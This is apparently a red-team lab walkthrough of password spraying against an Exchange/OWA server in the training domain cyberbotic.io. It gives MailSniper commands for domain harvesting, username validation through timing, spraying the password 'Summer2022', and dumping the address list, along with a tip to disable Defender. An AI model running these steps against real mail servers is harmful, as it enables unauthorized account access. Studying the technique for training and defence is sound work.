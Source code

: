 ```yaml
---
description: 09/01/2025
---
```


# Password Spraying

## What is it?

This is a type of brute force attack that attempts to gain unauthorized access to multiple user accounts by trying a small list of common passwords. These passwords are usually passwords that users are notorious for using.

{% hint style="info" %}
Be careful when utilizing this tactic as you can cause lockouts to local accounts.
{% endhint %}

## Localizations (e.g. Autumn vs. Fall)

Password spraying is an effective technique for discovering weak passwords that users are notorious for using. These are what users use and cycle between password updates depending on domain user policy. For example possible common user passwords could be MonthYear (`August2025`) or SeasonYear (`Summer2016`).

## Tooling, Tactics, Techniques, and Procedures (TTPs)

Two excellent tools for password spraying against Office 365 and Exchange are [`MailSniper`](https://github.com/dafthack/MailSniper) and [`SprayingToolkit`](https://github.com/dafthack/MailSniper).&#x20;

### MailSniper

**In order to begin a Password Spray via `MailSniper`, we must first invoke it:**

```
ipmo C:\Tools\MailSniper\MailSniper.ps1
```

{% hint style="info" %}
Microsoft Defender Real Time protection must be disabled natively without modification to this script if you want it to run correctly.
{% endhint %}

### Enumerate NetBIOS Names of Target Domain

Remember, from external reconnaissance, we were able to obtain this information on the mail server (`mail.cyberbotic.io`).&#x20;

* This is important as we will use it to further enumerate additional information required to gain initial access to our target AD environment

**We can achieve this via `Invoke-DomainHarvestOWA`:**

```
Invoke-DomainHarvestOWA -ExchHostname mail.cyberbotic.io

[*] Harvesting domain name from the server at mail.cyberbotic.io
The domain appears to be: CYBER or cyberbotic.io
```

### Finding Valid Usernames from List of Users Enumerated via External Recon

The following list of users was enumerated from `https://cyberbotic.io`.

**Here are the following enumerated names:**

```
Bob Farmer
Isabel Yates
John King
Joyce Adams
```

We can also pair this effort with [`namemash.py`](https://gist.github.com/superkojiman/11076951), which is a Python script that takes a person's full names and transforms it into possible username permutations (e.g. FirstLast, firstLast, First.Last, etc.).

**We can do this by:**

```
/namemash.py names.txt > possible-names.txt
```

Our new file, `possible-names.txt`, now contains all possible username permutations of our users within `names.txt`.

**Use `head` to view the first few:**

```
head -n 5 possible-names.txt
```

<figure><img src="../.gitbook/assets/image (268).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
:bulb: Note: We could potentially skip this step if we knew the email address format from somewhere like hunter.io.
{% endhint %}

### `Invoke-UsernameHarvestOWA` Usage

This module/PS script utilizes a timing attack to validate which (if any) of these usernames are valid.&#x20;

**Switch back to your PowerShell session for this:**

{% code overflow="wrap" %}
```
Invoke-UsernameHarvestOWA -ExchHostname mail.cyberbotic.io -Domain cyberbotic.io -UserList .\Desktop\possible.txt -OutFile .\Desktop\valid.txt
```
{% endcode %}

**Output:**

```
[*] Now spraying the OWA portal at https://10.10.15.100/owa/
Determining baseline response time...
Response Time (MS)       Domain\Username
763                      cyberbotic.io\OkAJfr
738                      cyberbotic.io\UGVuQv
750                      cyberbotic.io\ztHyFf
749                      cyberbotic.io\dsLWDY
762                      cyberbotic.io\YgFBIP

         Baseline Response: 752.4

Threshold: 460.44
Response Time (MS)       Domain\Username
[*] Potentially Valid! User:cyberbotic.io\bfarmer
[*] Potentially Valid! User:cyberbotic.io\iyates
[*] Potentially Valid! User:cyberbotic.io\jking
[*] A total of 3 potentially valid usernames found.
Results have been written to .\Desktop\valid.txt.
```

### Password Spraying w/ `MailSniper`

`MailSniper` can spray passwords against the valid account(s) identified using Outlook Web Access (OWA), Exchange Web Services (EWS), and Exchange ActiveSync (EAS).

**Password Spray:**

{% code overflow="wrap" %}
```
Invoke-PasswordSprayOWA -ExchHostname mail.cyberbotic.io -UserList .\Desktop\valid.txt -Password Summer2022
```
{% endcode %}

**Awesome, we can see that we do indeed have a user identified to be using a localization-based, weak password:**

<figure><img src="../.gitbook/assets/image (269).png" alt=""><figcaption></figcaption></figure>

The user's credentials successfully obtained via `MailSniper` **Password Spraying**:

```
iyates:Summer2022
```

{% hint style="info" %}
:warning: Remember, this should not be performed in the real world. Too many authentication attempts can count towards the domain lockout policy and lock out the user account. This is often a bad thing to do in engagements and is often out of scope unless mentioned otherwise.
{% endhint %}

### Using `MailSniper` w/ Valid Credentials to Download Global Address List

**Now that we have valid creds, we can authenticate to the target mail server of domain we are targeting and obtain the rest of the emails within the domain:**

{% code overflow="wrap" %}
```
Get-GlobalAddressList -ExchHostname mail.cyberbotic.io -UserName cyberbotic.io\iyates -Password Summer2022 -OutFile .\Desktop\gal.txt
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (270).png" alt=""><figcaption></figcaption></figure>

**Email Addresses obtained:**

```
Administrator@cyberbotic.io
bfarmer@cyberbotic.io
iyates@cyberbotic.io
jking@cyberbotic.io
nglover@cyberbotic.io
nlamb@cyberbotic.io
iyates@cyberbotic.io
```

Now that we have more names, we can go back and do another round of spraying against them if desired (_<mark style="color:yellow;">**ESPECIALLY if they weren't found during our initial recon phase**</mark>_).

## Confirming Impact of Weak Password

With successful authentication, proven with `MailSniper`, we can now authenticate as user, `iyates@cyberbotic.io:Summer2022` on the Microsoft Outlook portal.

<figure><img src="../.gitbook/assets/image (271).png" alt=""><figcaption></figcaption></figure>
